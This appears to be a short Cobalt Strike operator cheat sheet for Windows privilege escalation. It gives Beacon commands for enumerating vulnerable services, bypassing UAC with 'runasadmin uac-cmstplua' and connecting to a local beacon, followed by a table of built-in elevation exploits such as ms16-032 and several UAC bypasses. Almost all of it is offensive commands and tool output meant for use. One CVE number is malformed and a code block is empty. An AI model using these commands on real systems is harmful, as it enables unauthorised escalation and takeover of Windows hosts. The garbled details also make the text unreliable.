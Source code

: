 

#### Vulnerable Services

```powershell
sc_enum
```

> When abusing services, the dedicated svc.exe payloads must be used.

```powershell

```


#### UAC Bypass

> Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.

Execute UAC bypasss
```powershell
runasadmin uac-cmstplua [ONE-LINER]
```

Connect to beacon
```powershell
connect localhost 1337
```

More can be found here
```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms16-032                        Secondary Logon Handle Privilege Escalation (CVE-2016-099)
    uac-cmstplua                    Bypass UAC with CMSTPLUA COM interface
    uac-eventvwr                    Bypass UAC with eventvwr.exe
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
    uac-wscript                     Bypass UAC with wscript.exe
```